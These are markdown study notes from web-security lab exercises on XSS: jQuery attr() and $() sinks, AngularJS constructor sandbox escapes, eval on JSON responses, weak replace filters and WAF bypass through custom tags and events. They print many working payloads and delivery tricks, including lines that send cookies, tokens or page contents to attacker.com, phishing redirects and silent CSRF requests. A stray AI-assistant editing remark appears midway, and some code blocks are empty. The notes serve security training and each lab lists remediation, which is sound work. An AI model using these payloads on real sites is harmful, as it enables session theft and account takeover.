```
Seen in:

- Login pages  
- Feedback flows  
- Checkout redirects  

---

### 🟢 2️⃣ jQuery attr() Misuse (Legacy Goldmine)
```
$("#link").attr("href", input)
```
Found in:

- Old admin panels  
- CMS themes  
- jQuery-heavy dashboards  

---

### 🟢 3️⃣ OAuth / SSO Redirect Abuse (CRITICAL)
```
?redirect_uri=INPUT
```
Payload:
```
javascript:alert(1)
```
📌 Impact:

- Account takeover  
- Token theft  
- Login hijacking  

---

### 🟢 4️⃣ Email & Notification Links

User-controlled links rendered in:

- Emails  
- Notifications  
- Messages  

📌 User clicks → XSS executes  

---

### 🟢 5️⃣ Download / Return Links
```
?next=
?continue=
?return=
```
Very common in:

- SaaS apps  
- Payment systems  
- Subscription flows  

---

### 🟢 6️⃣ SPA Navigation (Modern Apps)
```
router.push(userInput)
```
📌 Can lead to DOM XSS via dynamic link generation  

---

### 🟢 7️⃣ Admin Panel Click-Based XSS

- Payload sent to admin  
- Admin clicks link  
- Full admin compromise  

🔥 HIGH VALUE  

---

## 🎯 High-Value Targets

---

### 🔴 Redirect & Navigation

- /redirect  
- /next  
- /return  
- /continue  
- /back  

---

### 🔴 Auth / OAuth

- /login  
- /oauth  
- /auth  
- /callback  

---

### 🔴 User Flow Pages

- /checkout  
- /payment  
- /subscription  
- /confirm  

---

### 🔴 Messaging / Email

- /notifications  
- /messages  
- /inbox  
- /email-preview  

---

## 🔗 Attack Chains

---

### 🔥 Chain 1 — DOM XSS → Session Theft
```
javascript:fetch("https://attacker.com?c="+document.cookie)
```
→ Steal session  
→ Hijack account  

---

### 🔥 Chain 2 — DOM XSS → Admin Takeover

1. Inject malicious link  
2. Send to admin  
3. Admin clicks  
4. Full control  

---

### 🔥 Chain 3 — DOM XSS → OAuth Token Theft
```
javascript:fetch("https://attacker.com?token="+localStorage.token)
```
→ Steal tokens  
→ Login as victim  

---

### 🔥 Chain 4 — DOM XSS → CSRF Automation
```
javascript:fetch("/change-password",{method:"POST"})
```
→ Perform actions silently  

---

### 🔥 Chain 5 — DOM XSS → Phishing Redirect
```
javascript:location="https://fake-login.com"
```
→ Credential harvesting  

---

## 🧪 Methodology

- Identify URL parameters  
- Inject test value  
- Inspect DOM for href change  
- Identify source (location.search)  
- Identify sink (attr)  
- Test payload (javascript:alert(1))  
- Click link  
- Confirm execution  

---

## ⚠ Why This DOM XSS Is Special

- Requires user interaction (click)  
- Happens only in browser  
- Server appears completely safe  
- Easily missed in automated scans  

---

## 🛡 Remediation

- Validate URLs strictly  
- Allow only http / https schemes  
- Block javascript: scheme  
- Avoid direct assignment to href  
- Use safe URL constructors  
- Encode and sanitize input  

---

### ❌ NEVER

- Trust user input in links  
- Use .attr() with untrusted data  
- Allow dynamic redirects without validation  

---

## 💡 Notes / Mindset

If you control the link → you control execution  

---

## 🧠 Mental Model

Find source  
→ Identify sink  
→ Control attribute  
→ Inject payload  
→ Trigger interaction  
→ Execute  

---

## 💡 Key Difference

Reflected XSS → automatic execution  

Stored XSS → persistent execution  

DOM XSS → user-triggered execution  

---

## 🧠 Bug Hunter Mindset

→ Can I control href?  
→ Is JavaScript inserting my input?  
→ Will user click this link?  
→ Can I inject javascript:?  

---

## 💡 Extra Tips

- Always try javascript:alert(1)  
- Look for jQuery usage (attr, html, append)  
- Target dynamic links  
- Test redirect parameters  

---

## 🧠 One-Line Memory Hook

If you control the link, you control the click  

---

# Lab - 7 🐞 DOM-Based XSS via jQuery $() + location.hash + iframe exploit delivery

---

## 🔹 Overview

DOM-Based Cross-Site Scripting (DOM XSS) happens when:

1️⃣ User input enters through the URL (here: location.hash)  
2️⃣ JavaScript reads that input  
3️⃣ A dangerous function (sink) processes it  
4️⃣ Browser parses it as HTML/JS and executes it  

---

### ⚠ Important in this lab

- Vulnerability exists in client-side JavaScript  
- Server response is completely safe  
- Execution happens when hash changes + JS runs  

---

### 🔄 Flow

User Input  
→ location.hash  
→ jQuery $()  
→ DOM injection  
→ Browser parses  
→ Event executes  

---

## 🔹 What Is This Topic?

This lab demonstrates DOM XSS using:

👉 jQuery $() selector as a sink  
👉 location.hash as a source  
👉 iframe + onload for automatic execution  

---

### 🧠 Source

location.hash  

👉 Reads user-controlled data from URL:

'#INPUT'

---

### 🧠 Sink

'$(location.hash)'

👉 Treats input as CSS selector / HTML → unsafe  

---

### ⚠ Important Behavior

- jQuery may interpret input as HTML instead of selector  
- Browser parses injected HTML  
- Event handlers (onerror, onload) execute  
- Requires trigger (hashchange event)  

---

## 🔹 Lab Walkthrough

---

### Step 1 — Open Homepage

Website auto-scrolls using URL hash  

---

### Step 2 — Test Hash Input

'#test123'

✔ Page scrolls → confirms location.hash is used  

---

### Step 3 — Inspect JavaScript

Found:
```
$(window).on("hashchange", function(){
  var post = $("section.blog-list h2:contains(" + decodeURIComponent(window.location.hash.slice(1)) + ")");
});
```
---

### Step 4 — Identify Vulnerability

👉 Input goes into:

':contains(INPUT)'

✔ No sanitization  
✔ Fully user-controlled  

---

### Step 5 — Understand Problem

👉 Payload must:

- Break selector context  
- Inject HTML  
- Trigger execution  

---

### Step 6 — Use iframe (IMPORTANT)

Direct payload may NOT trigger automatically  

👉 Use:
```
<iframe src="https://LAB-ID/#"
onload="this.src+=\'\'">
</iframe>
```
---

### Step 7 — What Happens

Before:

'https://lab-id/#'

After onload:
```
https://lab-id/#'
```
---

### Step 8 — Execution Flow

1️⃣ iframe loads page  
2️⃣ onload modifies hash  
3️⃣ hashchange event fires  
4️⃣ jQuery reads input  
5️⃣ payload injected  
6️⃣ browser parses  
7️⃣ image fails → onerror runs  

💥 print() executes  

---

### ✅ Lab solved

---

### 🔹 Exact Payload Used

```
<iframe src="https://LAB-ID/#"
onload="this.src+=\'\'">
</iframe>
```

---

### 🔹 Where Input Goes

URL → hash fragment (#INPUT)  

---

### 🔹 Source → Sink → Execution Flow

location.hash  
→ jQuery $()  
→ DOM  
→ browser parsing  
→ event execution  

---

### 🔹 What Changed in DOM

---

Before:

'#post1'

---

After:
```

```
---

## 🔹 Evidence / Screenshot (SS)



---

## 🌍 Real-World Scenarios

---

### 🟢 1️⃣ jQuery Selector Injection (HIGHLY COMMON)

'$(userInput)'

Payload:
```

```
Seen in:

- Blogs  
- CMS systems  
- Dashboards  

---

### 🟢 2️⃣ URL Hash Routing (SPA Apps)

'#/profile'

Payload:
```
#
```
Used in:

- React apps (older patterns)  
- Angular hash routing  
- Vue SPAs  

---

### 🟢 3️⃣ Auto-Scroll / Anchor Features

Functions like:

'scrollIntoView()'

📌 Often trust location.hash blindly  

---

### 🟢 4️⃣ Dynamic Navigation Tabs

Tabs controlled via:

'#tab=profile'

📌 Input inserted into DOM → XSS possible  

---

### 🟢 5️⃣ jQuery Plugins & UI Libraries

- Sliders  
- Carousels  
- Modals  

📌 Many legacy plugins use $() unsafely  

---

### 🟢 6️⃣ Search Highlight Features

'highlight($(location.hash))'

📌 Can lead to selector-based injection  

---

### 🟢 7️⃣ Comment / Blog Filtering

Using:

':contains(userInput)'

📌 EXACT pattern from this lab — very real  

---

## 🎯 High-Value Targets

---

### 🔴 Hash-Based Features

- #section  
- #tab  
- #view  
- #page  

---

### 🔴 SPA / Frontend Routing

- #/profile  
- #/settings  
- #/dashboard  

---

### 🔴 Blog / CMS Systems

- /blog  
- /posts  
- /articles  

---

### 🔴 Admin Panels

- /admin  
- /manage  
- /dashboard  

---

### 🔴 jQuery-Based Apps (CRITICAL)

- Legacy SaaS  
- Old enterprise dashboards  
- Internal tools  

---

## 🔗 Attack Chains

---

### 🔥 Chain 1 — DOM XSS → Session Theft
```

```
→ Steal cookies  
→ Hijack session  

---

### 🔥 Chain 2 — DOM XSS → Admin Takeover

1. Send malicious link  
2. Admin opens page  
3. iframe triggers payload  
4. Full admin compromise  

---

### 🔥 Chain 3 — DOM XSS → Token Exfiltration
```

```
→ Steal JWT  
→ Account takeover  

---

### 🔥 Chain 4 — DOM XSS → Silent Actions
```

```
→ Perform actions silently  

---

### 🔥 Chain 5 — DOM XSS → Worm Propagation

Payload auto-injects into:

- Comments  
- Posts  
- Messages  

→ Spreads across users  

---

## 🧪 Methodology

- Add hash input  
- Observe behavior  
- Inspect JavaScript  
- Identify source (location.hash)  
- Identify sink ($())  
- Try payload  
- Use iframe for trigger  
- Confirm execution  

---

## ⚠ Why This DOM XSS Is Special

- Requires event trigger (hashchange)  
- Uses jQuery selector parsing  
- Needs iframe for reliable exploitation  
- Hard to detect with scanners  

---

## 🛡 Remediation

- Never pass user input into $()  
- Sanitize input strictly  
- Escape selector values  
- Use safe DOM APIs  
- Upgrade jQuery  
- Implement CSP  

---

### ❌ NEVER

- Trust location.hash  
- Use dynamic selectors with user input  
- Assume selectors are safe  

---

## 🌍 Real-World Exploit Delivery

---

### 🟢 1️⃣ Local HTML File

Create:

'exploit.html'

Open locally or share  

---

### 🟢 2️⃣ Python HTTP Server (BEST)

'python3 -m http.server 8000'

Access:

'http://your-ip:8000/exploit.html'

---

### 🟢 3️⃣ Ngrok (PUBLIC URL)

'ngrok http 8000'

→ Public exploit URL  

---

### 🟢 4️⃣ GitHub Pages / Netlify

Host exploit permanently  

---

### 🔴 Netcat (Not Recommended)

- No proper HTML rendering  
- Not suitable for browser-based exploits  

---

## 💡 Notes / Mindset

If jQuery parses your input → you can turn selectors into execution  

---

## 🧠 Mental Model

Control hash  
→ JS reads it  
→ jQuery processes it  
→ HTML injected  
→ Browser parses  
→ Event executes  

---

## 💡 Key Difference

Reflected XSS → server execution  

Stored XSS → persistent  

DOM XSS → client-side execution with trigger  

---

## 🧠 Bug Hunter Mindset

→ Can I control URL hash?  
→ Is jQuery used?  
→ Is $() processing input?  
→ Can I trigger event automatically?  
→ How will victim load payload?  

---

## 💡 Extra Tips

- Always test
```
#
```
- Look for jQuery usage  
- Target :contains() selectors  
- Focus on dynamic DOM filtering  

---

## 🧠 One-Line Memory Hook

If jQuery parses your input, you can turn selectors into scripts  

---

# Lab-8 🐞 DOM-Based XSS (AngularJS Expression Injection) — Final Enhanced Write-Up

---

## 🔹 Overview

DOM-Based Cross-Site Scripting (AngularJS-based) happens when:

- User input enters through the URL (search parameter)  
- AngularJS reads and processes that input  
- Input is inserted into the page  
- AngularJS interprets expressions  
- JavaScript executes inside browser  

---

## 🔹 What Is This Topic?

This lab demonstrates AngularJS-based DOM XSS.

Instead of traditional HTML injection:

→ We use AngularJS expressions

Example pattern:
```
{{JS CODE}}
```
---

## 🔹 Lab Walkthrough

---

### Step 1 — Open Lab

Go to search functionality.

---

### Step 2 — Test Reflection

Input:

XSS123  

---

### Step 3 — Inspect Live DOM

Using DevTools → Inspector

Found:

h1 tag showing search results containing user input  

---

### Step 4 — Identify Context

→ Input is inside HTML text context  

- Not attribute  
- Not JavaScript  
- Pure HTML rendering  

---

### Step 5 — Try Basic Payload
```
<script>alert(1)</script>
```
❌ Does NOT execute  

---

### Step 6 — Understand Why

- Angle brackets are encoded  
- Browser treats input as plain text  

---

### Step 7 — Detect AngularJS

Check for:

ng-app  

→ AngularJS is active  

---

## 🔹 Evidence / Screenshot (SS)



---

### Step 8 — Try Basic Angular Payload
```
{{alert(1)}}
```
❌ Blocked / not executed  

---

## 🔹 Evidence / Screenshot (SS)



---

### Step 9 — Craft Bypass Payload

Final Payload:
```
{{$on.constructor("alert(1)")()}}
```
---

### Step 10 — Execution

- Angular parses expression  
- constructor builds function  
- alert executes  

💥 Alert triggered  

---

## 🔹 Evidence / Screenshot (SS)



---

## 🌍 Real-World Scenarios

---

### 🟢 Angular Expression Injection

Example:

div with angular expression rendering user input  

Payload:
```
{{alert(1)}}
```
---

### 🟢 Filter Bypass Using Constructor

Payload:
```
{{$on.constructor("alert(1)")()}}
```
---

### 🟢 When Functions Are Blocked

Payload:
```
{{$on.constructor("window")()}}
```
---

### 🟢 Character Restrictions Bypass

Payload:
```
{{$on.constructor(String.fromCharCode(97,108,101,114,116,40,49,41))()}}
```
---

### 🟢 Sandbox Escape Patterns

Payload:
```
{{[].constructor.constructor("alert(1)")()}}
```
---

### 🟢 Stored Angular XSS

Stored payload executes for every user  

---

### 🟢 Admin Panel Injection

Payload executes in admin browser  

→ High impact  

---

### 🟢 Legacy Angular Dashboards

Very common in:

- Admin panels  
- Internal tools  
- Reporting systems  

---

## 🎯 High-Value Targets

- Search functionality  
- Filters  
- AngularJS apps  
- Admin dashboards  
- CRM systems  
- Analytics panels  
- Internal enterprise tools  

---

## 🔗 Attack Chains

---

### 🔥 Session Hijacking
```
{{$on.constructor("fetch(\"https://attacker.com?c=\"+document.cookie)")()}}
```
---

### 🔥 Account Takeover

- Steal session cookies  
- Extract tokens  

---

### 🔥 Admin Compromise

Payload executed by admin  

→ Full control  

---

### 🔥 Data Exfiltration

- Read DOM  
- Extract API responses  

---

### 🔥 CSRF Automation
```
{{$on.constructor("fetch(\"/change-email\",{method:\"POST\"})")()}}
```
---

### 🔥 Advanced Chain

Angular XSS  
→ Steal CSRF token  
→ Perform privileged actions  

---

## 🧪 Methodology

- Identify input point  
- Check reflection in DOM  
- Identify context  
- Test script payload  
- If blocked → detect AngularJS  
- Test simple expression  
- Test alert expression  
- If blocked → use constructor payload  
- Confirm execution  

---

## 🛡 Remediation

- Disable AngularJS expression parsing for user input  
- Sanitize all inputs  
- Avoid rendering raw user data  
- Use contextual escaping  
- Upgrade AngularJS  
- Implement CSP  

---

## 💡 Notes / Mindset

- HTML blocked ≠ safe  
- AngularJS introduces hidden execution layer  
- Filters can be bypassed using constructor  

Always ask:

→ Is Angular present?  
→ Can I inject expressions?  
→ Can I bypass restrictions?  

---

## 🧠 Mental Model

Input  
→ Reflection  
→ HTML blocked  
→ Detect Angular  
→ Inject expression  
→ Bypass filter  
→ Execute  
→ Impact  

---

# Lab - 9 🐞 DOM-Based XSS (JSON + eval + Broken Escaping) 

---

## 🔹 Overview

Reflected DOM XSS happens when:

- User input goes to server  
- Server reflects it inside JSON response  
- JavaScript reads that response  
- A dangerous function processes it  
- Browser executes injected code  

---

## 🔹 What Is This Topic?

This lab demonstrates:

Reflected DOM XSS using unsafe JSON handling with eval.

Pattern:
```
eval('var data = JSON_RESPONSE')
```
---

## 🔹 Lab Walkthrough

---

### Step 1 — Open Lab

Go to search functionality.

---

### Step 2 — Test Input Reflection

Input:

XSS123  

---

### Step 3 — Intercept Request

Using proxy tool → observe response:

JSON response contains searchTerm with user input  

---

## 🔹 Evidence / Screenshot (SS)



---

### Step 4 — Locate JavaScript Usage

Check JavaScript files:

searchResults.js  

Found:

eval usage parsing server response  

---

### Step 5 — Identify Context

→ Input is inside JSON string  

- JavaScript string context  
- Parsed again using eval  
- Double parsing scenario  

---

## 🔹 Evidence / Screenshot (SS)



---

### Step 6 — Try Basic Payload
```
";alert(1);//
```
❌ Does NOT execute  

---

### Step 7 — Understand Why

- Quotes are escaped  
- String remains intact  

---

### Step 8 — Find Weak Point

→ Backslash not properly escaped  

→ Leads to escaping inconsistency  

---

### Step 9 — Final Payload
```
\"-alert(1)}//
```
---

### Step 10 — Internal Behavior

- Server escapes quotes  
- JavaScript re-processes string  
- Backslash handling breaks structure  

---

### Step 11 — Execution

- String breaks  
- alert executes  
- Remaining code commented  

💥 Alert triggered  

---

## 🌍 Real-World Scenarios

---

### 🟢 JSON + eval Usage

eval used to parse API responses  

---

### 🟢 API-Based Search Systems

Autocomplete  

Live search  

---

### 🟢 Dynamic Dashboards

JSON data rendered dynamically  

---

### 🟢 Legacy JavaScript Apps

Old applications using eval  

---

### 🟢 Third-Party Integrations

External APIs processed unsafely  

---

### 🟢 Analytics Scripts

Dynamic configs parsed via eval  

---

### 🟢 Admin Panels

JSON-based data rendering  

---

## 🎯 High-Value Targets

- Search endpoints  
- API responses  
- JSON parsers  
- JavaScript files  
- Autocomplete APIs  
- Admin dashboards  
- Analytics panels  
- Third-party integrations  

---

## 🔗 Attack Chains

---

### 🔥 Session Hijacking

Steal cookies via injected JavaScript  

---

### 🔥 Account Takeover

Extract tokens and sessions  

---

### 🔥 Data Exfiltration

Access sensitive API data  

---

### 🔥 Admin Compromise

Payload executes in admin browser  

---

### 🔥 Advanced Chain

eval XSS  
→ Extract API tokens  
→ Call internal APIs  

---

### 🔥 Stored-to-DOM Chain

Stored input  
→ Returned in JSON  
→ eval executes  

---

## 🧪 Methodology

- Send input  
- Observe reflection in response  
- Locate JS file processing it  
- Identify eval sink  
- Identify string context  
- Test payloads  
- Break escaping  
- Execute payload  

---

## 🛡 Remediation

- Avoid eval  
- Use JSON.parse  
- Escape input correctly  
- Sanitize backslashes  
- Use secure frameworks  

---

## 💡 Notes / Mindset

- eval + JSON = high risk  
- Double parsing = attack surface  
- Escaping mismatch = entry point  

Always ask:

→ Is data inside JSON?  
→ Is eval used?  
→ Can escaping be broken?  

---

## 🧠 Mental Model

Input  
→ Server JSON  
→ eval parsing  
→ escaping mismatch  
→ break string  
→ execute  
→ impact  

---

# Lab - 10 🐞 Stored DOM XSS (innerHTML + Weak replace Filter) — Final Enhanced Write-Up

---

## 🔹 Overview

Stored DOM XSS happens when:

- User input is submitted  
- Server stores it in database  
- Page later loads stored data  
- JavaScript inserts it into DOM  
- Browser parses and executes it  

---

## 🔹 What Is This Topic?

This lab demonstrates:

Unsafe DOM insertion using innerHTML with weak filtering.

Pattern:

element.innerHTML = comment.author  

Filter used:
```
input.replace("<", "&lt;")  
```
---

## 🔹 Lab Walkthrough

---

### Step 1 — Open the Lab

Go to blog comment section.  

---

### Step 2 — Understand Filter

Application uses:
```
replace("<", "&lt;")  
```
→ Only first occurrence is replaced  

---

### Step 3 — Craft Payload
```
<>
```
---

### Step 4 — Submit Comment

Payload is stored in database.  

---

### Step 5 — Page Loads

Stored comment is rendered.  

---

### Step 6 — JavaScript Execution

innerHTML is used to insert comment.  

---

### Step 7 — Browser Parsing

After filtering:
```
&lt;&gt;
```
→ First tag neutralized  
→ Second tag executes  

---

### Step 8 — Execution

- Image fails to load  
- onerror triggers  
- alert executes  

💥 Lab solved  

---

## 🔹 Evidence / Screenshot (SS)



---

## 🌍 Real-World Scenarios

---

### 🟢 Comment Systems

Blogs  
Forums  

---

### 🟢 User Profiles

Name fields  
Bio sections  

---

### 🟢 Admin Dashboards

User-generated content rendering  

---

### 🟢 Reviews / Feedback

Stored inputs displayed later  

---

### 🟢 Support Ticket Systems

User input shown to admins  

---

### 🟢 Messaging / Chat Systems

Messages rendered dynamically  

---

### 🟢 File Upload Names

Filename rendered unsafely  

---

## 🎯 High-Value Targets

- Admin panels  
- Moderation dashboards  
- Comment sections  
- Stored user content  
- Support systems  
- CRM tools  
- Notification panels  
- Internal dashboards  

---

## 🔁 Reverse Scenarios

---

### 🔴 Proper Filtering
```
replaceAll("<", "&lt;")  
```
→ Attack fails  

---

### 🔴 Safe DOM APIs

textContent instead of innerHTML  

---

### 🔴 Sanitization Libraries

Remove dangerous tags  

---

### 🔴 CSP Protection

Blocks inline execution  

---

### 🔴 Output Encoding

Payload rendered as text  

---

## 🔗 Attack Chains

---

### 🔥 Account Takeover

Session hijacking via payload  

---

### 🔥 Admin Compromise

Stored payload executed in admin panel  

---

### 🔥 Data Theft

Extract sensitive information  

---

### 🔥 Phishing Redirection

Redirect users to malicious sites  

---

### 🔥 Worm Propagation

Self-replicating stored payload  

---

### 🔥 Token Theft

Extract CSRF tokens → perform actions  

---

## 🧪 Methodology

- Insert test input  
- Confirm storage  
- Reload page  
- Inspect DOM  
- Identify sink  
- Test payload  
- Bypass filter  
- Confirm execution  

---

## 🛡 Remediation

- Avoid innerHTML  
- Use textContent  
- Sanitize inputs  
- Use proper encoding  
- Implement CSP  

---

## 💡 Notes / Mindset

- Stored + DOM = high impact  
- Weak filters are exploitable  
- Execution matters more than payload  

Always ask:

→ Is input stored?  
→ Is it rendered via JS?  
→ Is filtering incomplete?  

---

## 🧠 Mental Model

Store  
→ Load  
→ Inject  
→ Parse  
→ Execute  
→ Impact  

---

Perfect — this is already very clean. I’ll keep everything EXACT, only:

✔ Fix formatting (no merging issues)
✔ Keep payloads intact
✔ Add extra real-world depth + high-value targets + chains
✔ Keep your exact style


---

# Lab - 11 📝 Reflected XSS into HTML Context (WAF Bypass with Tag & Event Enumeration) — Final Notes

---

## 🧭 Overview

Reflected Cross-Site Scripting (XSS) occurs when:

1️⃣ User input is sent to the server  
2️⃣ Server reflects it in the response  
3️⃣ Browser renders it into DOM  
4️⃣ Malicious code executes  

---

## ⚠️ In this lab:

- ✔ Input is reflected in HTML context (inside tags)  
- ✔ A Web Application Firewall (WAF) is present  
- ✔ Common payloads are blocked  
- ✔ You must bypass the filter logically  

---

## 🧠 Core Concept

- ❌ Don’t guess payloads  
- ✅ Test what is allowed  

---

## 🔄 Flow

```
User Input → Server → HTML Response → DOM → Browser parses → Event triggers → Execution
```

---

## 📚 What This Lab Demonstrates

- Reflected XSS in HTML context  
- WAF filtering common tags/events  
- Bypassing WAF using enumeration + logic  

---

## 🧠 Source

User input from search parameter  

---

## 🧠 Sink

HTML rendering (inside `<h1>` / tag)  

---

## ⚠️ Important Behavior

- `<script>` is blocked ❌  
- Common payloads are blocked ❌  
- Only specific tags are allowed ✔  
- Only specific events are allowed ✔  

---

# 🪜 Lab Walkthrough

---

### 🔹 Step 1 — Test Reflection

**Input:**

```
test123
```

---

### 🔹 Step 2 — Inspect DOM

Found:

```html
<h1>test123</h1>
```

✔ HTML context confirmed  

---

### 🔹 Step 3 — Try Basic Payload

```html
<script>alert(1)</script>
```

❌ Blocked by WAF  

---

### 🔹 Step 4 — Try Common Payload

```html

```

❌ Blocked  

---

### 🔹 Step 5 — Switch Strategy

👉 Find what is **ALLOWED**, not what is blocked  

---

## 🧪 Tag Enumeration (Burp Intruder)

Payload:

```
<§§>
```

---

### 📸 Screenshot — Allowed Tag



---

### ✔ Result:

- Most tags → `400` (blocked)  
- `<body>` → `200` (allowed)  

---

### ✅ Allowed Tag:

```
<body>
```

---

## 🧪 Event Enumeration

Payload:

```
<body%20§§=1>
```

---

### 📸 Screenshot — Allowed Events



---

### ✔ Result:

Allowed events include:

- onresize ✔  
- onfocus ✔  
- onbeforeinput ✔  

---

## 🧠 Critical Filtering Step

👉 Allowed ≠ usable  

---

### ❌ Remove User-Dependent Events

- onclick  
- oninput  
- onscroll  
- onkeydown  

---

### ✅ Keep Auto-Trigger Events

- onresize ✔  
- onload ✔  
- onerror ✔  
- onfocus (sometimes) ✔  

---

## 🎯 Final Selection

- Tag → `body`  
- Event → `onresize`  

---

## 🧠 Why onresize?

✔ Can be triggered automatically  

---

## 🧪 Build Payload

```html
<body onresize=print()>
```

---

## ⚠️ Problem

Resize event needs a trigger  

---

## 💡 Solution — Use iframe

Trigger resize:

```html
<iframe onload=this.style.width='100px'>
```

---

## 💥 Final Payload

```html
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
```

---

## 🪜 Execution Flow

1️⃣ Victim loads iframe  
2️⃣ Page loads with injected `<body>`  
3️⃣ iframe resizes  
4️⃣ onresize triggers  
5️⃣ `print()` executes  

💥 Lab solved  

---

## 🧠 Payload Logic Breakdown

```
Tag (body) + Event (onresize) + Trigger (iframe resize) = XSS
```

---

## 🌍 Real-World Scenarios (Enhanced)

### 🟢 1️⃣ Weak WAF

```html

```

---

### 🟢 2️⃣ WAF Blocks Common Tags

```html
<svg onload=alert(1)>
```

---

### 🟢 3️⃣ Only Rare Tags Allowed

```html
<details open ontoggle=alert(1)>
```

---

### 🟢 4️⃣ Focus-Based Trigger

```html
<input autofocus onfocus=alert(1)>
```

---

### 🟢 5️⃣ Animation-Based Execution

```html
<div style="animation-name:x" onanimationstart=alert(1)>
```

---

### 🟢 6️⃣ iframe-Based Delivery

✔ Auto execution when victim visits page  

---

### 🟢 7️⃣ Multi-Step WAF Bypass

- Find allowed tag  
- Find allowed event  
- Add trigger  
- Combine everything  

---

## 🎯 High-Value Targets

- Search functionality  
- Filters  
- URL parameters  
- CMS editors  
- Dashboards  
- Admin panels 🔥  
- Support ticket systems 🔥  
- Logs / analytics 🔥  

---

## 🔗 Attack Impact

🔥 Account takeover  

🔥 Session hijacking  

🔥 Admin compromise  

🔥 Data exfiltration  

🔥 CSRF chaining  

---

## 🧪 Testing Methodology

- Identify reflection  
- Identify context  
- Test payloads  
- Detect WAF  
- Enumerate tags  
- Enumerate events  
- Filter usable events  
- Build payload  
- Trigger execution  

---

## ⚠️ Why This Lab Is Important

✔ Real-world WAF bypass  
✔ Teaches enumeration  
✔ Builds payload logic  
✔ Matches bug bounty cases  

---

## 🛡 Remediation

- Avoid reflecting raw input  
- Use output encoding  
- Implement CSP  
- Sanitize input  
- Avoid dynamic HTML  

---

## 🧠 Bug Hunter Mindset

👉 What is allowed?  
👉 What is blocked?  
👉 Which event auto-triggers?  
👉 How do I force execution?  

---

## 🧠 Ultimate Mental Model

```
Find → Filter → Choose → Trigger → Execute
```

---

## 💡 Extra Tips

- Use DevTools (live DOM)  
- Don’t rely on common payloads  
- Intruder = discovery tool  
- Focus on execution  

---

# Lab - 12 📝 Reflected XSS into HTML Context (Custom Tags Only) — Final Notes

---

## 🧭 Overview

This lab demonstrates a Reflected XSS vulnerability where:

- ✔ User input is reflected in HTML  
- ✔ All standard HTML tags are blocked ❌  
- ✔ Only custom (unknown) tags are allowed ✔  

👉 Goal:

```js
alert(document.cookie)
```

---

## 🧠 Core Concept

- If real tags are blocked → use fake (custom) tags  
- If no auto execution → force a trigger  

---

## 🔄 Flow

```
User Input → Server → HTML Response → Browser parses → Custom tag created → Focus triggered → JS executes
```

---

## 🧠 Source

Search parameter:

```
?search=INPUT
```

---

## 🧠 Sink

HTML context (inside page content)

---

## ⚠️ Restrictions

```
<script> ❌  
 ❌  
<svg> ❌
```

✔ All standard tags blocked  
✔ Custom tags allowed  

---

## 🧠 Key Discovery

👉 Browser accepts ANY unknown tag

Examples:

```html
<xss></xss>
<abc></abc>
<anything></anything>
```

---

# 🪜 Lab Walkthrough

---

### 🔹 Step 1 — Test Reflection

```
test123
```

✔ Appears in page  

---

### 🔹 Step 2 — Try Normal Payload

```html

```

❌ Blocked  

---

### 🔹 Step 3 — Try Custom Tag

```html
<xss>test</xss>
```

✔ Allowed  

---

### 🔹 Step 4 — Add Event

```html
<xss onfocus=alert(1)>
```

⚠️ Does NOT trigger automatically  

---

### 🔹 Step 5 — Make Element Focusable

```html
<xss tabindex=1 onfocus=alert(document.cookie)>
```

✔ Now it can receive focus  

---

### 🔹 Step 6 — Add Auto Trigger (#id)

```html
<xss id=x onfocus=alert(document.cookie) tabindex=1>
```

---

## 💥 FINAL EXPLOIT (Official)

```html
<script>
location = 'https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
</script>
```

---

## 🧠 Payload Breakdown

---

### 🔹 Custom Tag

```html
<xss>
```

✔ Bypasses WAF  

---

### 🔹 ID

```
id=x
```

✔ Used with `#x`  

---

### 🔹 Focusability

```
tabindex=1
```

✔ Makes element focusable  

---

### 🔹 Execution

```html
onfocus=alert(document.cookie)
```

✔ Runs JS  

---

### 🔹 Trigger

```
#x
```

✔ Forces focus  

---

## 🪜 Execution Flow

1️⃣ Victim opens exploit  
2️⃣ Redirect happens  
3️⃣ Payload injected  
4️⃣ Browser sees `#x`  
5️⃣ Element receives focus  
6️⃣ onfocus triggers  
7️⃣ alert executes 💥  

---

## 🧠 Key Learning

- Custom tag = container  
- Event = execution  
- Trigger = activation  

---

## 🧠 Focus Concept (Important)

👉 Focus = element becomes active  

Triggered by:

- Clicking  
- Tab key  
- URL hash (`#id`)  

---

## 🌍 Real-World Scenarios

---

### 🟢 1️⃣ Custom Tag + Focus (Primary Attack)

```html
<xss id=x tabindex=1 onfocus=alert(document.cookie)>
```

Trigger:

```
#x
```

---

### 🟢 2️⃣ Autofocus Trick

```html
<xss autofocus onfocus=alert(document.cookie)>
```

✔ Auto-trigger  

---

### 🟢 3️⃣ Animation-Based Execution

```html
<xss style="animation-name:x" onanimationstart=alert(document.cookie)>
```

---

### 🟢 4️⃣ Transition-Based Execution

```html
<xss style="transition:1s" ontransitionend=alert(document.cookie)>
```

---

### 🟢 5️⃣ Click-Based Fallback

```html
<xss onclick=alert(document.cookie)>
```

---

### 🟢 6️⃣ Hover-Based Execution

```html
<xss onmouseover=alert(document.cookie)>
```

---

### 🟢 7️⃣ Iframe Delivery

```html
<iframe src="https://target.com/?search=PAYLOAD"></iframe>
```

✔ Real attack delivery  

---

### 🟢 8️⃣ Multi-Trigger Payload

```html
<xss id=x tabindex=1 onfocus=alert(1) onmouseover=alert(2)>
```

---

### 🟢 9️⃣ CSS Display Trick

```html
<xss style="display:block" onload=alert(1)>
```

---

### 🟢 🔟 Rare Event Exploitation

```html
<xss onbeforeinput=alert(1)>
```

---

## 🎯 High-Value Targets

- Search functionality  
- Filters  
- Reflected endpoints  
- CMS preview pages  
- Error pages  
- Marketing pages  
- Analytics / tracking  

---

## 🔗 Attack Chains

---

### 🔥 Session Hijacking

```js
document.cookie
```

---

### 🔥 Account Takeover

✔ Steal tokens / cookies  

---

### 🔥 Admin Compromise

✔ Admin opens link → full takeover  

---

### 🔥 Phishing Redirect

```html
onfocus="location='https://fake-login.com'"
```

---

### 🔥 Data Exfiltration

```js
fetch("https://attacker.com?d="+document.body.innerHTML)
```

---

## 🧪 Testing Methodology

- Test reflection  
- Try normal tags  
- Confirm blocking  
- Use custom tags  
- Add event  
- Make focusable  
- Add trigger (#id)  
- Deliver payload  
- Confirm execution  

---

## ⚠️ Why This XSS Is Special

- All real tags blocked  
- Custom tags allowed  
- Requires trigger logic  
- Realistic WAF bypass  

---

## 🛡 Remediation

- Encode input properly  
